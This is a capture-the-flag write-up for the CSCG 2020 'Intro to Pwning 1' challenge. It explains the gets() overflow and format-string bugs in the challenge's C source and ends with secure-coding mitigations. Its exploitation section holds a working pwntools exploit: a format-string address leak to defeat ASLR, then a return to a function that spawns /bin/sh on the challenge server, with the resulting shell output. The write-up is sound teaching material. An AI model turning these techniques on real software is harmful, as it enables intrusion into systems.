

# Intro to Pwning 1

**Author**: `Managarmr`

## Table of Contents

1. [Challenge](#1-challenge)
2. [Having a look](#2-having-a-look)
3. [Exploiting](#3-exploiting)
4. [Final exploit](#4-final-exploit)
5. [Mitigations](#5-mitigations)


## 1. Challenge

**Category**: `Pwn`  
**Difficulty**: `Baby`  
**Author**: `LiveOverflow`  
**Attachments**: [intro_pwn.zip](https://static.allesctf.net/challenges/8176578445cfc3b1f615f0683bc9173e9e2f53f5adf953c12bccf42280dacda9/intro_pwn.zip)  
**Description**:

This is a introductory challenge for exploiting Linux binaries with memory corruptions. Nowodays there are quite a few mitigations that make it not as straight forward as it used to be. So in order to introduce players to pwnable challenges, [LiveOverflow created a video walkthrough](https://www.youtube.com/watch?v=hhu7vhmuISY) of the first challenge. [An alternative writeup](https://static.allesctf.net/Tutorial_Intro_Pwn.html) can also be found by 0x4d5a. More resources can also be found [here](https://github.com/LiveOverflow/pwn_docker_example).

## 2. Having a look

### 2.1 Overview

Looking at the zip file we can see that the files for all 3 challenges have
been provided:

```
$ unzip -l intro_pwn.zip 
Archive:  intro_pwn.zip
  Length      Date    Time    Name
---------  ---------- -----   ----
        0  2020-02-17 04:07   pwn3/
       23  2020-02-17 04:07   pwn3/flag
    13296  2020-02-17 04:07   pwn3/pwn3
      332  2020-02-17 04:07   pwn3/Dockerfile
    18744  2020-02-17 04:07   pwn3/ynetd
     2452  2020-02-26 21:27   pwn3/pwn3.c
        0  2020-02-17 04:07   pwn2/
       23  2020-02-17 04:07   pwn2/flag
    13336  2020-02-17 04:07   pwn2/pwn2
      332  2020-02-17 04:07   pwn2/Dockerfile
     2487  2020-02-27 22:04   pwn2/pwn2.c
    18744  2020-02-17 04:07   pwn2/ynetd
      311  2020-02-17 04:07   Makefile
        0  2020-02-17 04:07   pwn1/
     1745  2020-02-25 19:44   pwn1/pwn1.c
       23  2020-02-17 04:07   pwn1/flag
      333  2020-02-17 04:07   pwn1/Dockerfile
    18744  2020-02-17 04:07   pwn1/ynetd
    13120  2020-02-17 04:07   pwn1/pwn1
      610  2020-02-17 04:07   docker-compose.yml
---------                     -------
   104655                     20 files
```

However we are only interested in the `pwn1` directory for now.

### 2.2 Source code

Lucky for us we are provided with the source code - upon checking it out we
immediately spot a nice function:

```c
void WINgardium_leviosa() {
    printf("┌───────────────────────┐\n");
    printf("│ You are a Slytherin.. │\n");
    printf("└───────────────────────┘\n");
    system("/bin/sh");
}
```

This must be our target function as calling it will drop us into a shell -
fair enough for a baby challenge. Unfortunately the function is never called
regularly, meaning we have to do it ourselves. Checking the `main()` function
we can see that the `welcome()` function is called first:

```c
void main(int argc, char* argv[]) {
    ignore_me_init_buffering();
    ignore_me_init_signal();

    welcome();
    AAAAAAAA();
}
```

```c
void welcome() {
    char read_buf[0xff];
    printf("Enter your witch name:\n");
    gets(read_buf);
    printf("┌───────────────────────┐\n");
    printf("│ You are a Hufflepuff! │\n");
    printf("└───────────────────────┘\n");
    printf(read_buf);
}
```

We can spot three things wrong with this function:
1. The `gets()` call allows us to overflow the stack buffer and possible gain
code redirection.
2. The `printf()` call is given our user-provided input as format string,
allowing us to possibly leak or clobber data.
3. This function, as well as all others, have their opening curly braces `{`
put on the same line as the function definition, whilst there are no security
implications it's still objectively wrong. `/s`

The last function `AAAAAAAA()` doesn't look much better:

```c
void AAAAAAAA() {
    char read_buf[0xff];
    
    printf(" enter your magic spell:\n");
    gets(read_buf);
    if(strcmp(read_buf, "Expelliarmus") == 0) {
        printf("~ Protego!\n");
    } else {
        printf("-10 Points for Hufflepuff!\n");
        _exit(0);
    }
}
```

And also allows us to smash the stack for fun and profit. This function also
has a caveat though, namely that  we **must** pass the `strcmp()` as we cannot
afford the call to `_exit()` as this would terminate the program without ever
using our overwritten stack values.

## 3. Exploiting

### 3.1 Checking out the binary

Looking at the binary with checksec we can see that all security features
but stack canaries are enabled:

```
[*] '/home/managarmr/CTF/2020/CSCG/Pwn/Intro_To_Pwning/pwn1/pwn1'
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      PIE enabled
```

Meaning we have to somehow bypass `ASLR` if we want to return into the 
`WINgardium_leviosa()` function.

### 3.2 Bypassing ASLR

Remember the rogue `printf()`? We can use this to defeat `ASLR` by leaking an
address:

```python
target.sendline('%p ' * 40)
leak = target.recvline_contains('spell:').split(b' ')
for i in range(0, 40):
	log.info(f'{i + 1}: {leak[i]}')
```

Which returns the following output:

```
[...snip...]
[*] 36: b'(nil)'
[*] 37: b'0x56492a6879e9'
[*] 38: b'0x7fffb0d27ad0'
[...snip...]
```

The address in slot `37` is an old return address to `ignore_me_init_signal()`
after the `alarm()` call. This means we can get the base address by subtracting
`0x9e9`:

```
00000000000009ca <ignore_me_init_signal>:
 9ca:   55                      push   %rbp
 9cb:   48 89 e5                mov    %rsp,%rbp
 9ce:   48 8d 35 c6 ff ff ff    lea    -0x3a(%rip),%rsi        # 99b <kill_on_timeout>
 9d5:   bf 0e 00 00 00          mov    $0xe,%edi
 9da:   e8 11 fe ff ff          callq  7f0 <signal@plt>
 9df:   bf 3c 00 00 00          mov    $0x3c,%edi
 9e4:   e8 e7 fd ff ff          callq  7d0 <alarm@plt>
 9e9:   90                      nop
 9ea:   5d                      pop    %rbp
 9eb:   c3                      retq
```

### 3.3 Executing /bin/sh

After bypassing `ASLR` executing `/bin/sh` becomes trivial, as we just need to
return to the `WINgardium_leviosa()` function. In order to do so we still have
to pass the `strcmp()`, but lucky for us `gets()` does not care about
null-bytes, whereas `strcmp()` only compares strings until a null-byte is
encountered. Thus we simply have to prepend out exploit with `Expelliarmus\0`.

The next step is to determine which offset we need to use for our `ROP`-address,
lucky for us pwntools `cyclic()` function and `GDB` make this trivial as well.

After a trial run `GDB` tells us the magic value for `cyclic()` is `cnaa`:



Running this within the supplied `docker` environment crashes though, because
an unaligned `movaps xmm` instruction is executed. In order to fix it we just
have to realign the stack by returning to a `ret` instruction first.

## 4. Final exploit

With all the information mentioned above we can finally develop our exploit:

```python
#!/usr/bin/env python3
from pwn import *

LEAK_BASE_OFFSET = 0x9e9

elf = ELF('./pwn1/pwn1', checksec=False)

# target = process('./pwn1/pwn1')
target = remote('hax1.allesctf.net', 9100)

target.recvline_contains('name:')
target.sendline('%37$p')
leak = target.recvline_contains('spell:').split(b' ')
base = int(leak[0][2:], 16) - LEAK_BASE_OFFSET
win = base + elf.symbols['WINgardium_leviosa']
log.success(f'Leaked base address: {hex(base)}')
log.info(f'Target address: {hex(win)}')

stack_align = win + 0x36
target.sendline(b'Expelliarmus\0' +
	b'x' * cyclic_find(b'cnaa') +
	p64(stack_align) + p64(win))
target.interactive()
```

Running the exploit drops us into a shell:

```
$ ./solve_1.py
[+] Opening connection to hax1.allesctf.net on port 9100: Done
[+] Leaked base address: 0x557da06f4000
[*] Target address: 0x557da06f49ec
[*] Switching to interactive mode
~ Protego!
┌───────────────────────┐
│ You are a Slytherin.. │
└───────────────────────┘
$ id
uid=1000(ctf) gid=1000(ctf) groups=1000(ctf)
$ ls
flag
pwn1
ynetd
$ cat flag
CSCG{NOW_PRACTICE_MORE}$ 
```

The flag for this challenge was `CSCG{NOW_PRACTICE_MORE}`.

## 5. Mitigations

There are two possible mitigations and one potential security enhancement:

- Do **not** use `gets()`, rather use a safe function such as `read()`,
`fgets()`, etc.
- Do **not** pass user-supplied data as format argument to `printf()`, rather
pass it to `puts()` or use a format string of `%s`.
- Enable stack canaries, they can help mitigate potential exploits, albeit not
when it's possble to leak stack data, such as is the case in this challenge.
